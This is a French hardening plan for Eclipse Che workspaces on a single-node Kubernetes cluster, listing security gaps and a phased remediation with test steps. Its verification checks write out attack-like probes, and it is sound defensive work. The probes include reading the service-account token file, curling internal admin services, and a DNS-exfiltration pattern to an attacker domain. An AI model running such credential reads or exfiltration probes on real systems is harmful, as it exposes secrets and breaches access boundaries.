

# Durcissement des workspaces Che : état, plan et protocole de test

Préparé le 2026-11-23 et le 2026-11-24, à partir d'un relevé du cluster (namespace
`dev-ws-batleforc`) et des décisions prises pendant la revue. Rien n'est en place
au-delà de ce que la section « Ce qui s'applique au namespace » décrit comme actif.
Version visuelle : https://claude.ai/artifact/HbvRbknzbmwLVjGJyAWpgH

Décisions déjà prises :

- le kube-apiserver (6443) reste joignable depuis le workspace : che-code en a
  besoin pour remonter son état, sinon le workspace ne passe jamais en Started ;
- moteur cible : youki, avec un repli runc via `dwocPin`. Kata reste une piste
  pour plus tard. gVisor et crun sont écartés ;
- outils : sidecar par défaut. Seuls les outils qui demandent un privilège ou un
  périphérique (BuildKit, émulateur Android) vont dans un namespace de team, et
  ils démarrent à la demande ;
- devfiles : générateur, puis approche plateforme. Un contrôle de version
  (`weebo.io/platform-contract`) s'applique aussi aux devfiles écrits à la main.
  Les deux façons d'organiser son env (projet chapeau ou devfile dans le projet)
  sont des recommandations à documenter dans un User Guide ;
- mono-nœud assumé : ses faiblesses sont acceptées, et le passage au multi-nœud
  est à documenter.

Voir aussi `dev-env.md` (builder central et CI interne, à rapprocher du BuildKit
de team) et `documentation.md` (le User Guide répond au lecteur « dev qui arrive »).

---

Relevé live du 23/11/2026 : opérateur weebo-si 0.5.0, WeeboSiConfig `cluster` (génération 17), team `weebo`, user `batleforc`. Le workspace `weebo-dotfiles-che-owjk` était arrêté au moment du relevé. Cluster mono-nœud, un choix assumé (voir la section dédiée).

## Ce qui s'applique au namespace

Légende : actif mais en Audit (ne bloque rien) · feature non activée · prévu dans le plan.

## Détail par feature

- **imageRewrite** (Enforce) : 7 règles dont docker.io, quay.io et ghcr.io vers angos. Le dernier match a eu lieu le 21/11 dans ce namespace.

- **imagePolicy** (Enforce) : La team autorise `registry.pkg.weebo.poc/**` et aussi `ghcr.io/batleforc/weebodevimage/**` en direct. Entrée directe à retirer (phase 2), puis signature cosign vérifiée (phase 10).

- **dwocPin** (Enforce) : Le DevWorkspace est épinglé sur `eclipse-che/devworkspace-config`. Prévu : youki par défaut via le CheCluster, et une entrée de repli `runc` (phase 5).

- **policyGuard** (Enforce) : Personne d'autre que l'opérateur ne peut modifier les policies qu'il gère.

- **endpointAuth** (Enforce) : Les 4 Ingress passent par les middlewares Traefik `endpoint-auth` et `-errors`, avec l'accès private par défaut. L'entrée anonyme `open` est accordée à toute la team : à restreindre (phase 3).

- **podSecurity** (Enforce) : PSA en `baseline` pour enforce, audit et warn (v1.36). Cible : `restricted`, avec `hostUsers: false` (phase 5).

- **networkProfiles** (Enforce) : Sortie autorisée : DNS (tous domaines, `*`), Traefik 8000/8443, Che, kube-apiserver 6443 (indispensable), github.com et git.batleforc.fr (443/22), api.anthropic.com. Prévu : DNS restreint et Traefik filtré par host (phase 3).

- **kubearmorPolicy** (Audit) : Audit seulement sur `/usr/bin`, `/usr/sbin` et `net_raw`. La posture par défaut du namespace est aussi en audit. Prévu : token réservé au Node de che-code (`fromSource`, phase 3), puis Block (phase 6).

- **identity** (Enforce) : Crée l'AuthentikUser et l'App Argo `che-user-batleforc` (selfHeal, sans prune). Le départ d'un utilisateur reste à traiter (phase 9).

- **registryConfig** (Off) : `npm-mirror` est défini dans la team, mais la feature n'existe pas dans le WeeboSiConfig : aucun `.npmrc` n'est copié dans le namespace.

- **resourceQuotas** (Off) : Pas de ResourceQuota. Seule une LimitRange Kyverno existe : 2Gi de mémoire par défaut, ni limite CPU ni maximum.

- **teamTools** (À créer) : N'existe pas encore. Les outils qui demandent des privilèges ou un périphérique (BuildKit, émulateurs Android) tournent dans un namespace de team et démarrent à la demande. Tous les autres restent des sidecars du workspace. Phase 7.

- **Contrôle devfile** (À créer) : Avertissement au démarrage selon `weebo.io/platform-contract`, `schemaVersion` et un parent épinglé. Refus seulement pour une version vulnérable. Vaut aussi pour les devfiles écrits à la main. Phase 8.

- **Workspace témoin** (À créer) : Un vrai workspace qui rejoue chaque nuit les tests T-xx automatisables et alerte dès qu'une attaque réussit. Phase 1.

- **UID par namespace** (À créer) : N'existe pas encore. Une plage UID/GID attribuée à chaque namespace de workspace et imposée par webhook. Phase 5.

## Ce qui manque pour sécuriser

| Priorité | Constat | Correction |
|---|---|---|
| Haute | KubeArmor est en Audit partout. Rien n'est bloqué à l'exécution. | Lire `karmor logs`, puis passer en Block d'abord `net_raw`, l'écriture dans `/usr/bin` et `/usr/sbin`, et la lecture de `/proc/*/environ`. Ensuite, basculer la posture du namespace (fichiers et capabilities) en block. |
| Haute | `weebo-base` ouvre Traefik 8000/8443 à tout le namespace. Le workspace atteint donc tous les services publiés sur `*.weebo.poc` (Argo CD, OpenBao, ClickStack, Forgejo…). Seul authentik se trouve sur ce chemin. | Ajouter une règle L7 Cilium `rules.http` filtrée par `host` pour n'autoriser que les hosts utiles (registry.pkg, pkg, git, che). |
| Haute | Le kube-apiserver:6443 doit rester ouvert, sinon le workspace ne passe jamais en started. Or le token du ServiceAccount (`devworkspace-default-role`) permet de lire, créer et supprimer tous les Secrets du namespace, de faire un `pods/exec` et de patcher les DevWorkspace. Tout processus du pod peut donc lire le PAT, les credentials git et les clés TLS. | Garder 6443, mais limiter qui peut lire le token : une règle KubeArmor `fromSource` qui n'autorise la lecture de `/var/run/secrets/kubernetes.io/serviceaccount/` qu'au Node de l'IDE che-code, celui qui remonte l'état du workspace. Supprimer aussi le profil `kube-api`, qui fait doublon avec la base. |
| Haute | Le DNS laisse passer toutes les requêtes (`matchPattern: "*"`). Une donnée peut sortir encodée dans des requêtes DNS, même si toute la sortie HTTP est bloquée. | Restreindre les patterns DNS de la base aux domaines internes, et laisser chaque profil ajouter les siens (phase 3). |
| Moyenne | L'entrée `open` (endpoint anonyme) est accordée à toute la team : un workspace peut publier un endpoint sur Internet sans authentification. | Ne l'accorder que par annotation de namespace posée par l'admin, et alerter à chaque usage (phase 3). |
| Moyenne | Le webhook weebo-si n'a qu'une réplique, avec `failurePolicy: Fail`. Pendant un redémarrage, aucun workspace ne démarre, et il s'ajoute à la chaîne d'admission au boot. Aucun test continu ne vérifie que les interdits tiennent toujours. | 2 répliques et une PDB, plus un workspace témoin qui tente les interdits et alerte (phase 1). |
| Accepté | Cluster mono-nœud : un seul etcd, Longhorn à 1 réplique, plateforme et workspaces sur le même noyau. | Faiblesses assumées pour l'instant. Documenter le passage au multi-nœud et les bonnes pratiques à suivre dès maintenant (section dédiée). |
| Moyenne | Pas de quota : un workspace peut épuiser le CPU, la mémoire et le stockage Longhorn du nœud. | Activer `resourceQuotas` avec un profil par team (CPU, mémoire, nombre de PVC, `requests.storage`). |
| Moyenne | PSA reste en `baseline`. | Tester `restricted` (le binaire `passwd-append` existe pour l'UID arbitraire). Ajouter `hostUsers: false` (user namespaces) via le DWOC épinglé. |
| Moyenne | Tous les workspaces ont le même UID/GID. Le DWOC épinglé ne fixe aucun `podSecurityContext`, donc le DevWorkspace Operator applique sa valeur par défaut : `runAsUser`/`fsGroup` 1234 dans tous les namespaces. | Donner à chaque namespace de workspace une plage UID/GID qui lui est propre, attribuée par l'opérateur et imposée par webhook. À combiner avec `hostUsers: false`. |
| Moyenne | La team autorise `ghcr.io/batleforc/weebodevimage/**` en direct, ce qui contourne angos si la réécriture tombe. | Supprimer cette entrée du catalogue : imageRewrite la ramène déjà sur `registry.pkg.weebo.poc/ghcr/…`. |
| Moyenne | `registryConfig` est déclaré dans la team mais pas activé. | Ajouter `registryConfig` au WeeboSiConfig et pointer `weebo-npmrc` sur le vrai miroir (c'est encore un placeholder dans values.yaml). |
| Fonctionnel | Aucun outillage partagé par team. Construire une image (BuildKit), lancer un appareil Android, une grille de navigateurs ou un cache de compilation : soit c'est impossible, soit il faudrait affaiblir le workspace. | Séparer deux cas. Les sidecars sans privilège restent dans le pod (Postgres, Redis, rustfs de dev, Playwright, sccache). Les outils privilégiés ou qui demandent un périphérique passent par une feature `teamTools` (BuildKit, Android) : un namespace par team, démarré à la demande. Voir la phase 7. |
| Fonctionnel | Pas de devfile de référence, aucun suivi des devfiles qui vieillissent, et aucune doc pour les développeurs. Les règles du cluster se découvrent quand un workspace refuse de démarrer. | Un générateur de devfile appuyé sur un parent versionné, puis une approche plateforme. Renovate et un avertissement weebo-si signalent un devfile obsolète. Deux façons d'organiser son env (projet chapeau ou devfile dans le projet) à documenter, dans une partie User Guide. Voir la phase 8. |
| Hygiène | Il reste des RoleBindings legacy pour `User:batleforc`, en plus de `labsso:max@weebo.internal`, et environ 40 Secrets TLS de workspaces supprimés. | Supprimer les bindings sans préfixe et les Secrets orphelins, puis trouver qui oublie de les nettoyer. |

## Pour aller plus loin

- **Images signées ou scannées.** Kyverno est déjà présent : une `ImageValidatingPolicy` (cosign) sur les namespaces de workspace, ou un scan côté angos. Aujourd'hui on ne vérifie que la provenance, pas le contenu.
- **Détection runtime.** Envoyer les alertes KubeArmor et les flux Hubble dans ClickStack avec de l'alerting. Hubble seul n'a pas assez d'historique pour enquêter sur l'egress. Envisager Tetragon pour la vue processus.
- **Exfiltration via git.** github.com en 443/22 permet de pousser n'importe où. Passer par Forgejo comme seul remote (avec des miroirs) et retirer github.com de `dev-registries`.
- **Secrets longue durée.** Le PAT et les credentials git sont des Secrets statiques dans le namespace. Les remplacer par des tokens courts émis par OpenBao (ExternalSecret avec TTL).
- **Moteur youki.** Passer les workspaces sur youki, avec un repli sur runc. Kata reste une piste pour plus tard, pour les workspaces à risque.
- **Outils de team et sidecars.** Les outils privilégiés ou qui demandent un périphérique (BuildKit, Android) tournent dans un namespace de team et démarrent à la demande. Les autres (bases de données, navigateurs, caches) sont des sidecars du workspace.
- **Sauvegarde des PVC workspace.** Ajouter des backups Longhorn vers S3 pour le stockage per-workspace.
- **Passerelle LLM.** Les agents IA passent par une passerelle interne (clés par utilisateur, journal, budget) au lieu d'une clé personnelle dans le workspace.
- **Durcir Che.** Appliquer à che-server, à la gateway et au DevWorkspace Operator la même logique que pour les workspaces : ce sont des cibles de choix depuis un workspace.
- **Accès admin et audit.** Une règle d'accès d'urgence, et la journalisation des `exec` et des lectures de Secrets dans les namespaces de workspace.
- **Cycle de vie.** Un runbook de départ d'un utilisateur, et un rythme de mise à jour des forks Che et de WeeboDevImage, avec signature des images.
- **Multi-nœud.** Documenter le passage au multi-nœud et les bonnes pratiques à suivre dès maintenant. Les faiblesses du mono-nœud sont acceptées en attendant.
- **Durée de vie.** Un timeout d'inactivité, une durée maximale d'exécution et un plafond de workspaces simultanés côté Che. Je ne les ai pas vérifiés dans le CheCluster.

## Plan d'action

Les phases sont dans l'ordre où les faire. On voit d'abord, on retire ensuite ce qui est inutile, et on bloque seulement quand on sait ce qu'on casse. Chaque feature weebo-si passe par `DryRun` avant `Enforce`.

- **Tout passe par Git.** Les changements se font dans `2.argo/helm/che/hardening/values.yaml` ou dans la team. Argo CD a le selfHeal activé et écrase tout patch fait en live sur les CR. Pour tester, on passe le mode en `DryRun`, pas par `kubectl edit`.
- **On teste sur `batleforc-test` d'abord.** Ce user est dans la même team, ce qui donne un namespace de recette gratuit avant de toucher au tien.
- **Chaque étape a un retour arrière en une ligne :** remettre le mode en `DryRun` ou `Off`, ou revert le commit.

### Phase 1 · Voir avant de bloquer

> Aujourd'hui, l'audit KubeArmor et les flux réseau ne sont lisibles qu'en direct (`karmor logs`, Hubble avec un historique trop court). Sans historique, impossible de savoir ce qu'un Block ou une règle L7 casserait. Cette phase conditionne les phases 3 et 6, et sert de témoin pendant la phase 5.

#### Envoyer les alertes KubeArmor dans ClickStack

**Pourquoi** : Les règles sont déjà en Audit, mais personne ne lit leur sortie. Avec une ou deux semaines d'historique, on sait quelles règles peuvent passer en Block sans gêner le travail quotidien.

**Comment** : Brancher le relay KubeArmor (gRPC) sur l'OTel collector cluster déjà en place, puis créer un tableau de bord par namespace, règle et processus.

**Vérif** : Un `ping` (net_raw) dans le workspace apparaît dans ClickStack.

#### Historiser les flux Hubble de sortie des namespaces de workspace

**Pourquoi** : Il faut savoir quels hosts derrière Traefik et quels appels au kube-apiserver le workspace utilise vraiment avant de les fermer (phase 3).

**Comment** : Exporter les flux Hubble, en filtrant sur le label `hardening.weebo.io/workspace-namespace` pour limiter le volume.

**Vérif** : On retrouve les flux de la veille vers `traefik:8443`, avec le SNI ou le host.

#### Fiabiliser le webhook weebo-si

**Constat** : Tous les webhooks weebo-si sont en `failurePolicy: Fail`. C'est le bon choix : s'il tombe, il bloque au lieu de laisser passer sans contrôle. Mais `weebo-si-operator-webhook` n'a qu'une réplique. Pendant un redémarrage ou une mise à jour, aucun DevWorkspace, Pod de workspace ni Ingress ne peut être admis. Au reboot du nœud, il s'ajoute à la chaîne d'admission déjà fragile (le cycle kyverno ↔ vault-webhook).

**Comment** : 2 répliques, une PDB `minAvailable: 1` et une `topologySpreadConstraints` (inutile en mono-nœud, mais prête pour le multi-nœud). Vérifier que le `namespaceSelector` de chaque webhook exclut `kube-system` et `weebo-si-hardening`, pour qu'il ne puisse jamais bloquer son propre démarrage. Faire un test de reboot à froid avec la check-list du runbook.

**Vérif** : Supprimer un pod du webhook pendant le démarrage d'un workspace ne change rien. Après un reboot du nœud, les workspaces démarrent sans intervention.

#### Un workspace témoin qui teste les interdits

**Pourquoi** : Le canary de `networkProfiles` ne vérifie que le réseau, et la suite `weebo-si-e2e` tourne sur kind, pas sur ce cluster. Rien ne prévient si un changement (montée de version, revert, selfHeal) rouvre en silence ce que le plan a fermé.

**Comment** : Un namespace témoin (un WeeboSiUser technique dans la team) avec un CronJob qui démarre un vrai DevWorkspace et tente : Chaque tentative doit échouer. Une réussite déclenche une alerte ClickStack. Les tests s'ajoutent au fil des phases.

- de lire le token hors che-code ;
- un `curl` vers Internet et vers `argocd.weebo.poc` ;
- un `ping` et une requête DNS vers un domaine inconnu ;
- de tirer une image hors angos ;
- de s'accorder un profil réseau.

**Vérif** : Repasser une feature en `DryRun` sur le témoin déclenche l'alerte au cycle suivant.

### Phase 2 · Nettoyer et activer ce qui est déjà prévu

> Ces étapes sont sans risque et rapides. Elles retirent des accès qui ne servent plus et livrent ce que la team déclare déjà.

#### Retirer `weebo-devimages` du catalogue imagePolicy

**Pourquoi** : imageRewrite envoie déjà `ghcr.io/batleforc/weebodevimage/*` sur angos. L'entrée en direct ne sert donc que si la réécriture tombe, et dans ce cas elle laisse passer une image qui n'est ni cachée ni contrôlée.

**Comment** : Retirer l'entrée de `features.imagePolicy.catalog` et du `default` de la team `weebo`.

**Vérif** : Le workspace démarre, et le log du webhook montre le match de réécriture puis l'admission sur `registry.pkg.weebo.poc/ghcr/…`.

#### Activer `registryConfig` avec un vrai `.npmrc`

**Pourquoi** : La team déclare `npm-mirror`, mais la feature n'est pas activée. Le réseau bloque déjà npmjs.org, donc npm passe soit par une config faite à la main, soit pas du tout. Activer la feature rend le miroir à la fois obligatoire et automatique.

**Comment** : Ajouter `registryConfig` au WeeboSiConfig, d'abord en DryRun puis en Enforce. Remplacer le placeholder de `weebo-npmrc` par l'URL batlehub ou angos.

**Vérif** : Le ConfigMap npmrc est présent dans le namespace et `npm install` fonctionne dans le workspace.

#### Supprimer les RoleBindings legacy et les Secrets TLS orphelins

**Pourquoi** : Les bindings `User:batleforc` (sans préfixe `labsso:`) donnent des droits à une identité qu'aucun IdP actuel n'émet. Si une source d'identité future émet ce nom, elle hérite de ces droits. Les environ 40 Secrets TLS contiennent des clés privées que plus rien n'utilise.

**Comment** : Trouver d'abord qui les crée (Che ou une ancienne version de `2.helm/user-app`) et corriger la source, puis supprimer. Sinon ils reviendront.

**Vérif** : Il ne reste que les bindings `labsso:`, et le nombre de Secrets reste stable après un cycle start/stop du workspace.

### Phase 3 · Réduire ce que le workspace peut atteindre

> C'est le gain le plus important. Un workspace compromis, par une dépendance npm piégée ou par un agent IA mal guidé, ne doit pas pouvoir parler à Argo CD ou OpenBao. L'API Kubernetes doit rester joignable, sinon le pod ne passe jamais en started : on limite donc qui peut utiliser le token, pas le réseau.

#### Garder 6443 ouvert, mais limiter la lecture du token aux processus Che

**Pourquoi** : Le rôle `devworkspace-default-role` donne au token des droits complets sur les Secrets (lecture, création, suppression), le `pods/exec` et le patch des DevWorkspace. N'importe quel `postinstall` npm peut lire `/var/run/secrets/kubernetes.io/serviceaccount/token` et récupérer le PAT, les credentials git et les clés TLS du namespace. Le réseau ne peut rien y faire, puisque 6443 est obligatoire.

**Comment** : C'est l'IDE (che-code) qui doit lire le token pour remonter l'état du workspace. Il tourne avec son propre binaire Node, injecté dans le volume `/checode`, qui est distinct du Node de l'utilisateur (mise). Ajouter une règle `file.matchDirectories` sur le répertoire du token, en Block, avec un `fromSource` limité au chemin exact de ce Node che-code. Le confirmer d'abord avec l'audit de la phase 1, et ajouter machine-exec s'il apparaît. Un `npm install`, un shell ou un outil lancé depuis le terminal tourne sous un autre binaire et se voit refuser le token. Supprimer aussi le profil `kube-api` du catalogue, qui fait doublon avec la base.

**Limite** : L'extension host de VS Code tourne sous ce même Node, donc une extension installée garde l'accès au token. On réduit l'exposition des dépendances et des outils, pas celle des extensions. Pour aller plus loin : une liste d'extensions autorisées (Open VSX interne ou `extensions.allowed` dans la config de l'éditeur).

**Vérif** : Le workspace passe en started et l'IDE remonte bien son état. Dans un terminal, `cat …/serviceaccount/token` renvoie Permission denied, et ClickStack voit l'événement.

#### Vérifier qu'un workspace ne peut pas s'accorder un profil lui-même

**Pourquoi** : Le token permet de patcher le DevWorkspace, donc l'attribut `hardening.weebo.io/network-profiles`. Si le catalogue de la team vaut accord, un processus compromis peut demander `internet` et ouvrir toute la sortie.

**Comment** : Faire le test sur `batleforc-test`. Si ça passe, sortir `internet` du catalogue de la team et ne l'accorder que par annotation de namespace (que seul l'admin peut poser).

**Vérif** : Un patch de l'attribut avec la valeur `internet` est refusé (`onNotGranted`) ou ignoré.

#### Filtrer Traefik 8000/8443 par host (Cilium L7)

**Pourquoi** : Aujourd'hui, passer par Traefik donne accès à tous les services publiés. Une liste de hosts autorisés ramène l'accès à ce qu'un développeur utilise : registre, packages, git, Che, ses propres endpoints.

**Comment** : Ajouter `toPorts.rules.http` avec des `host` sur la règle Traefik de `weebo-base`. En 8443, Cilium ne voit que le SNI : il faut une règle TLS par SNI, sinon on passe par 8000. Les services d'admin se donnent ensuite via un profil explicite.

**Vérif** : `curl https://argocd.weebo.poc` est refusé depuis le workspace, alors que `registry.pkg` et `git` répondent.

#### Fermer l'exfiltration par DNS

**Pourquoi** : La règle DNS de `weebo-base` accepte toutes les requêtes (`matchPattern: "*"`). Même avec toute sortie HTTP bloquée, une donnée peut sortir encodée dans des requêtes DNS vers un domaine contrôlé par l'attaquant (`<données>.attaquant.tld`), relayées par CoreDNS.

**Comment** : Restreindre les `dns.matchPattern` de la base à `*.cluster.local`, `*.weebo.poc` et `*.svc`. Chaque profil ajoute les patterns de ses propres FQDN (`api.anthropic.com`, `github.com`…). Le proxy DNS de Cilium refuse le reste, et Hubble le trace. Utiliser la phase 1 pour lister les domaines réellement résolus avant de couper.

**Vérif** : `dig exemple-inconnu.com` est refusé (REFUSED) depuis le workspace. Les domaines des profils accordés résolvent toujours.

#### Encadrer les endpoints anonymes (`open`)

**Pourquoi** : La team accorde l'entrée `open` de `endpointAuth` (`anonymous: true`). N'importe quel workspace de la team peut donc publier un endpoint sur Internet sans authentification. C'est une sortie de données dans l'autre sens, que les profils réseau de sortie ne voient pas.

**Comment** : Retirer `open` du catalogue de la team et ne l'accorder que par annotation de namespace (posée par l'admin, protégée par policyGuard). Envoyer dans ClickStack une alerte à chaque Ingress admis en `open`, avec le workspace et l'utilisateur.

**Vérif** : Un devfile qui demande `open` sans annotation retombe sur `private`. Une demande autorisée génère l'alerte.

### Phase 4 · Limiter les ressources

> Sur un cluster aussi petit, un workspace qui fuit en mémoire ou qui remplit Longhorn touche toute la plateforme, y compris OpenBao et Argo CD. Un quota borne le pire cas.

#### Activer `resourceQuotas`

**Pourquoi** : La seule protection actuelle est une LimitRange Kyverno qui fixe seulement des valeurs par défaut : pas de limite CPU, pas de maximum, pas de borne sur le stockage.

**Comment** : Un profil team `weebo` avec `limits.cpu`, `limits.memory`, `requests.storage`, `persistentvolumeclaims` et un `max` dans la LimitRange. Passer en DryRun et comparer avec la consommation réelle avant Enforce. Retirer ensuite la LimitRange Kyverno pour garder une seule source.

**Vérif** : `kubectl describe quota` montre l'usage, et un workspace qui dépasse est refusé à la création, pas tué en cours de route.

### Phase 5 · Moteur et identité du pod

> On change d'abord le moteur (youki), puis on sépare les identités : user namespaces, un UID par namespace, PSA `restricted`. Ces étapes changent ce que voient KubeArmor et les volumes. Elles passent donc avant le Block KubeArmor, qui sera calibré une seule fois, sur l'état final.

#### Workspaces sur youki, avec repli sur runc

**Pourquoi** : youki isole exactement comme runc, donc KubeArmor, Cilium, PSA et `hostUsers` continuent de fonctionner. Mais il est écrit en Rust : les bugs mémoire du moteur lui-même disparaissent, alors que c'est la couche par laquelle passent les évasions (CVE-2024-21626, CVE-2025-31133/52565/52881 sur runc).

**Déjà fait** : L'extension Talos youki est installée sur le nœud. Le schematic n'a pas à changer.

**Contrainte** : Le DWOC épinglé `eclipse-che/devworkspace-config` est généré par che-operator. Toute modification faite directement dessus serait écrasée. Le `runtimeClassName` par défaut se règle donc dans le CheCluster (`spec.devEnvironments.runtimeClassName`, que le CRD accepte), et che-operator le recopie dans son DWOC.

**Étapes** :

1. **RuntimeClass `youki` dans Git** (`handler: youki`). Elle n'existe pas encore dans le cluster (relevé du 23/11). Elle va dans `2.argo/helm/che/sub/templates/`, à côté de `devworkspace-config.yaml`. Il faut aussi autoriser `node.k8s.io/RuntimeClass` dans le `clusterResourceWhitelist` du projet Argo de che (`2.argo/app/values.yaml`).
2. **Smoke test hors workspace.** Un pod jetable avec `runtimeClassName: youki` et une image angos, dans `dev-ws-batleforc-test`. On vérifie qu'il démarre, que `uname` et `id` répondent, que KubeArmor le voit (`karmor probe`) et que Cilium lui applique ses policies. On le supprime ensuite.
3. **DWOC de test `devworkspace-config-youki`** dans `eclipse-che`, versionné dans `che/sub/templates`. C'est une copie de la config du DWOC de Che (`task k -- -n eclipse-che get dwoc devworkspace-config -o yaml`), avec `workspace.runtimeClassName: youki` en plus.
4. **Entrée `youki` dans `dwocPin`** : dans le catalogue global de `che/hardening/values.yaml`, et accordée à la team `weebo`, dont le catalogue est aujourd'hui vide.
5. **Test sur `batleforc-test`** : annoter son namespace avec `hardening.weebo.io/dwoc: youki`, puis dérouler la liste « À tester » ci-dessous. Ton namespace reste sur runc pendant ce temps.
6. **Bascule de tous les workspaces** : `devEnvironments.runtimeClassName: youki` dans `che-cluster.yaml`. Le DWOC de Che passe en youki pour tout le monde. On retire l'annotation de `batleforc-test`.
7. **La copie devient le repli runc** : on renomme `devworkspace-config-youki` en `devworkspace-config-runc`, on retire son `runtimeClassName`, et la clé `dwocPin` devient `runc`.

**Repli runc** : Kubernetes ne bascule jamais tout seul d'un moteur à l'autre : si youki ne démarre pas un pod, le pod échoue.

- **Pour un seul namespace :** l'annotation `hardening.weebo.io/dwoc: runc` le repasse sur runc sans toucher aux autres.
- **Pour tous les workspaces :** on retire la ligne `runtimeClassName` du CheCluster, un seul revert dans Git.

**Point d'attention** :

- **La copie dérive.** Elle ne suit pas les changements que che-operator fait à son propre DWOC, par exemple après une montée de version de Che. Il faut un contrôle, par exemple une tâche qui compare les deux sans le champ `runtimeClassName`, à lancer après chaque montée de version de Che.
- **`hostUsers` n'a pas d'équivalent dans le CheCluster.** Il faudra vérifier si che-operator conserve un champ ajouté à son DWOC. Sinon, on passera au même schéma : un DWOC maison épinglé par défaut.

**À tester** :

- Le workspace passe en started et che-code remonte son état.
- KubeArmor reconnaît le conteneur (il passe par les événements containerd, quel que soit le moteur).
- `hostUsers: false` fonctionne avec youki : les montages idmap sont plus récents chez youki que chez runc, c'est le point le plus incertain.
- Le PVC Longhorn se monte, et les limites cgroups v2 (mémoire, CPU) sont respectées.
- Les terminaux machine-exec fonctionnent.

#### À tester avant d'activer `hostUsers: false`

**Contexte** : Les prérequis sont remplis : Kubernetes 1.36.2, containerd 2.3.7, noyau 6.18 (Talos 1.14.6), Cilium 1.19.10, volumes workspace Longhorn RWO en ext4. Cilium et KubeArmor ne devraient pas être gênés, car ils travaillent dans le noyau du nœud, et un user namespace ne change que la traduction des UID. Les points ci-dessous restent à confirmer sur un pod de test dans `dev-ws-batleforc-test`.

**Base** : `cat /proc/self/uid_map` montre un mapping non identitaire. Le PVC Longhorn se monte, et un fichier écrit apparaît avec l'UID du conteneur. Les montages tmpfs (token, Secrets, ConfigMaps) sont lisibles.

**Cilium** : Le DNS passe par la règle `weebo-base`. `api.anthropic.com`, `github.com` et `git.batleforc.fr` sont joignables (règles FQDN, proxy DNS). Un host interdit reste bloqué. Les Services ClusterIP répondent. L'identité Cilium du pod est la bonne (`cilium endpoint list`), et Hubble trace les flux.

**KubeArmor** :

- Le pod est bien reconnu comme conteneur : `karmor probe` et des événements qui portent le bon namespace et le bon pod.
- Une règle fichier en Audit (`/usr/bin`) génère un événement.
- Le `fromSource` sur le Node de che-code fonctionne toujours : il compare des chemins, pas des UID.
- La règle `net_raw` réagit à un `ping`. Dans un user namespace, les capabilities sont propres à ce namespace : il faut vérifier que KubeArmor voit et bloque toujours `CAP_NET_RAW`.
- Quel UID apparaît dans les logs ? Celui du conteneur (1234 ou la plage du namespace) ou celui traduit sur le nœud ? Le résultat décide si l'UID par namespace suffit pour savoir qui a agi.

**Ne pas faire** : Passer le stockage workspace en RWX : Longhorn RWX passe par NFS, qui ne supporte pas les montages idmap, et le pod ne démarre pas. `hostNetwork`, `hostPID` et `hostIPC` sont refusés avec `hostUsers: false`, ce qui concerne tout sidecar qui en demanderait un.

#### Un UID/GID propre à chaque namespace

**Pourquoi** : Aujourd'hui, tous les workspaces de tous les utilisateurs tournent en 1234:1234. Un fichier écrit par un workspace appartient donc à la même identité que ceux des autres. Cela vaut sur les volumes partagés ou RWX, sur les répertoires du nœud et après une évasion du conteneur. Les droits Unix ne séparent plus rien entre deux utilisateurs, et les logs d'audit (KubeArmor, nœud) ne permettent pas de savoir quel namespace a agi. Avec une plage propre à chaque namespace, ce cloisonnement revient, comme sur OpenShift avec `openshift.io/sa.scc.uid-range`.

**Comment** : Créer une nouvelle feature weebo-si, ou étendre `podSecurity`. Le reconcile attribue à chaque namespace porteur de `hardening.weebo.io/workspace-namespace` une plage qui ne chevauche aucune autre, et l'écrit en annotation (par exemple `hardening.weebo.io/uid-range: 1010000/10000`). La plage reste stable pendant toute la vie du namespace. Le webhook Pod applique ensuite `runAsUser`, `runAsGroup` et `fsGroup` depuis cette plage et refuse toute valeur en dehors. policyGuard empêche quiconque d'autre que l'opérateur de modifier l'annotation. Le binaire `passwd-append` crée l'entrée `/etc/passwd` pour l'UID choisi. Le DWOC n'y suffit pas : il est commun à tous les namespaces, et une valeur unique là-dedans redonnerait le même UID partout.

**Avec user namespaces** : C'est complémentaire. `hostUsers: false` donne déjà un UID différent sur le nœud pour chaque pod, mais l'UID vu dans le conteneur et sur les volumes reste 1234. La plage propre au namespace sépare aussi ce qui est écrit sur les volumes et ce que montrent les logs. Si les user namespaces sont actifs, la plage doit rester sous 65536.

**Vérif** : `id` donne un UID différent dans les workspaces de `batleforc` et de `batleforc-test`. Un pod qui demande `runAsUser: 1234` est refusé. `ls -n` sur le PVC montre l'UID du namespace.

